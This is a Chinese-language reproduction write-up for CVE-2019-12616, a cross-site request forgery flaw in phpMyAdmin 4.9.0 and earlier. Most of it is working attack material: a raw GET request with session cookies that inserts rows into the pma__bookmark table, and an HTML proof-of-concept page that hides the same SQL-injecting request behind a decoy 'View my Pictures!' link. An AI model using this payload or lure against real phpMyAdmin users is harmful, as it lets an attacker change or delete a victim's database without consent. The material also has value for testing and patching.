 （CVE-2019-12616）Phpmyadmin CSRF
=================================

一、漏洞简介
------------

4.9.0之前在phpmyadmin中发现了一个问题。发现一个漏洞，允许攻击者对phpMyAdmin用户触发CSRF攻击。攻击者可以欺骗用户。

    例如通过指向受害者的phpMyAdmin数据库的一个损坏的<img>标记，并且攻击者可以潜在地将有效负载（例如特定的插入或删除语句）传递给受害者。

二、漏洞影响
------------

Phpmyadmin \<= 4.9.0

三、复现过程
------------

    GET http://www.0-sec.org:9000/tbl_sql.php?sql_query=INSERT+INTO+%60pma__bookmark%60+(%60id%60%2C+%60dbase%60%2C+%60user%60%2C+%60label%60%2C+%60query%60)+VALUES+(DAYOFWEEK(%27%27)%2C+%27%27%2C+%27%27%2C+%27%27%2C+%27%27)&show_query=1&db=phpmyadmin&table=pma__bookmark HTTP/1.1

    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Connection: keep-alive
    Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; pmaUser-1=%7B%22iv%22%3A%22M16ZzlA0rqF9BZ1jFsssjQ%3D%3D%22%2C%22mac%22%3A%22804941d12fceca0997e181cbcb8427d68c668240%22%2C%22payload%22%3A%22mD9juTxAYhC7lA7XPWHWOw%3D%3D%22%7D; phpMyAdmin=9bdd66557e399fc1447bf253bc2dc133
    Upgrade-Insecure-Requests: 1
    Host: localhost:9000

攻击者可以很容易地创建一个假超链接，其中包含希望代表用户执行的请求，这样就可能由于错误地使用http方法而导致csrf攻击

    #POC
    <!doctype html>

    <html lang="en">
    <head>
      <meta charset="utf-8">
      <title>POC CVE-2019-12616</title>
    </head>

    <body>
    <a href="http://www.0-sec.org:9000/tbl_sql.php?sql_query=INSERT+INTO+`pma__bookmark`+(`id`%2C+`dbase`%2C+`user`%2C+`label`%2C+`query`)+VALUES+(DAYOFWEEK('')%2C+''%2C+''%2C+''%2C+'')&show_query=1&db=phpmyadmin&table=pma__bookmark">View my Pictures!</a>
    </body>
    </html>
